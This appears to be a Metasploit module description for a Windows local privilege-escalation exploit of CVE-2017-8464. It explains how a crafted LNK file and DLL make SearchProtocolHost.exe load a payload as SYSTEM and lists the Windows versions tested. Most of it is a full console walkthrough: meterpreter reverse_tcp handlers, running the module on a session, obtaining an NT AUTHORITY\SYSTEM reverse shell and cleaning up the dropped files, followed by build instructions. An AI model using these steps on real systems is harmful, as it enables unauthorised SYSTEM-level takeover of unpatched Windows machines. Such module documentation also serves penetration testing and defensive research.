 ## Description
This module is a Windows local exploit version of the existing file
format module for CVE-2017-8464. The module works by dropping the
specially crafted LNK file and DLL to disk, which causes
`SearchProtocolHost.exe` to parse the LNK file and thus load the DLL via
the vulnerability. Due to `SearchProtocolHost.exe` running as SYSTEM,
this can be used to elevate privileges.

The original DLL template needed some significant reworking to make it
compatible for execution within `SearchProtocolHost.exe`. The payload
was originally failing in the hollowed child `rundll32.exe` process with
a denied error from winsock. This was addressed by checking if the process
which loaded the crafted DLL is `SearchProtocolHost.exe` and when it is,
it opens the token of another SYSTEM process and passes it to
`CreateProcessAsUser` for the payload to work. When the DLL is loaded
into another process or is not running as SYSTEM, this step is skipped
and `NULL` is passed as the token.

Finally a thread is spawned to keep a module reference and monitor the
child process. This is for synchronization to prevent the payload from
being executed in rapid succession from a single exploitation attempt.
The mutex was also updated to the constant of `MUTEX!!!` to leverage
Metasploit's builtin mutex name randomization, which ensures that a name
is unique per module run but not globally unique.

## Vulnerable Systems
Tested and works on
Windows 7x64 SP0
Windows 7x64 SP1
Windows 8x64
Windows 8.1x64
Windows 10x64 Build 1511
Windows 10x64 Build 1607
Windows 10x64 Build 1703

## Running Example:
```
> use exploit/multi/handler
> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
> set LHOST 192.168.135.112
LHOST => 192.168.135.112
> set LPORT 30001
LPORT => 30001
> show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.112  yes       The listen address
   LPORT     30001            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


[*] > Ruby Code (13 bytes)
> run -z
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.135.112:30001
[*] Sending stage (205379 bytes) to 192.168.134.133
[*] Meterpreter session 1 opened (192.168.135.112:30001 -> 192.168.134.133:49178) at 2017-11-06 10:22:02 -0800
> sysinfo
Computer        : WIN7X64-SP0
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
> sessions -l

Active sessions
===============

  Id  Type                     Information                        Connection
  --  ----                     -----------                        ----------
  1   meterpreter x64/windows  WIN7X64-SP0\msfuser @ WIN7X64-SP0  192.168.135.112:30001 -> 192.168.134.133:49178 (192.168.134.133)

> use exploit/windows/local/cve_2017_8464_lnk_lpe
> set session 1
session => 1
> set target 0
target => 0
> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
> set lhost 192.168.135.112
lhost => 192.168.135.112
> set lport 30002
lport => 30002
> set verbose true
verbose => true
> show options

Module options (exploit/windows/local/cve_2017_8464_lnk_lpe):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DLLNAME                    no        The DLL file containing the payload
   FILENAME                   no        The LNK file
   PATH                       no        An explicit path to where the files should be written to
   SESSION   1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.112  yes       The listen address
   LPORT     30002            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


> run -j
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 192.168.135.112:30002
[*] Generating LNK file to load: C:\Users\msfuser\QtGyQHZpWvmzjdsn.dll
[*] Sending stage (205379 bytes) to 192.168.134.133
[*] Meterpreter session 2 opened (192.168.135.112:30002 -> 192.168.134.133:49179) at 2017-11-06 10:23:03 -0800
[*] Waiting 15s before file cleanup...
[+] Deleted C:\Users\msfuser\HADoIQMbEQDpbbRn.lnk
[+] Deleted C:\Users\msfuser\QtGyQHZpWvmzjdsn.dll
> sessions -l

Active sessions
===============

  Id  Type                     Information                        Connection
  --  ----                     -----------                        ----------
  1   meterpreter x64/windows  WIN7X64-SP0\msfuser @ WIN7X64-SP0  192.168.135.112:30001 -> 192.168.134.133:49178 (192.168.134.133)
  2   meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN7X64-SP0  192.168.135.112:30002 -> 192.168.134.133:49179 (192.168.134.133)

> getuid
Server username: WIN7X64-SP0\msfuser
Server username: NT AUTHORITY\SYSTEM
> getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
> getuid
Server username: NT AUTHORITY\SYSTEM
> exit -y
```

## Compiling instructions
`cd ./external/source/exploits/cve-2017-8464`
`./build.sh`

(Requires `mingw-w64` package)

